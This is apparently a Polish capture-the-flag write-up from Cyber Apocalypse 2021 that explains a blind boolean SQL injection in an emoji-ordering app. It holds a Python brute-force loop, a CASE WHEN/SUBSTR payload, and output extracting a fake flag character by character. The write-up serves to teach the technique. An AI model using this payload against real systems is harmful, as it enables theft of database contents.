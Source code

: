 ```yaml
---
Źródło: https://nosecurity.blog/cyberApocalypse2021
---
```


# Wygląd platformy

![platforma](./platform.png)

# Fragment exploita

```python
finished = False
# atak siłowy zaczynamy od 1 znaku 
# SQL jako pierwszy indeks bierze 1
character_position = 1
# Starting with a blank string and then appending characters to it as we bruteforce
flag = ''

while not finished:
    for character in bruteforce_alphabet:

        sql_payload = '(CASE WHEN (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' THEN id ELSE count END);--'
        
        request = send_order_query(sql_payload)
		
        # jak znajdziemy znak to szukaj kolejnego
        if blind_boolean(request):
            flag += character
            character_position += 1
            print('Hit: ' + flag)
            break
		
        # jak dojdziemy do końca alfabetu to znaczy, że przeszliśmy wszystko
        if character == bruteforce_alphabet[-1]:
            finished = True
```

# 1. 
```sql
SUBSTR(' + sql_field + ',1,' + str(character_position) + ')
```
> wybierz tyle znaków z pola sql_field na ile wskazuje character_position

# 2.
```sql
(SELECT 
    SUBSTR(' + sql_field + ',1,' + str(character_position) + ') 
FROM ' + sql_table + sql_where + ')
```
> weź znaki z **1.** i przekaż do zapytania z **3.**

# 3.
```sql
(CASE WHEN 
    (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' 
THEN id ELSE count END);--
```
> jeśli sprawdzany przez nas znak pasuje do tego w bazie to wybierz według **id**
> w przeciwnym przypadku wybierz według **count**

## Przypadek id

```sql
(CASE WHEN (1=1) THEN id ELSE count END)
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

## Przypadek count

```sql
(CASE WHEN (1=2) THEN id ELSE count END)
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

# Wynik
```
...
Hit: CHTB{f4k3_fl4g_f0r_t3s
Hit: CHTB{f4k3_fl4g_f0r_t3st
Hit: CHTB{f4k3_fl4g_f0r_t3st1
Hit: CHTB{f4k3_fl4g_f0r_t3st1n
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng}
```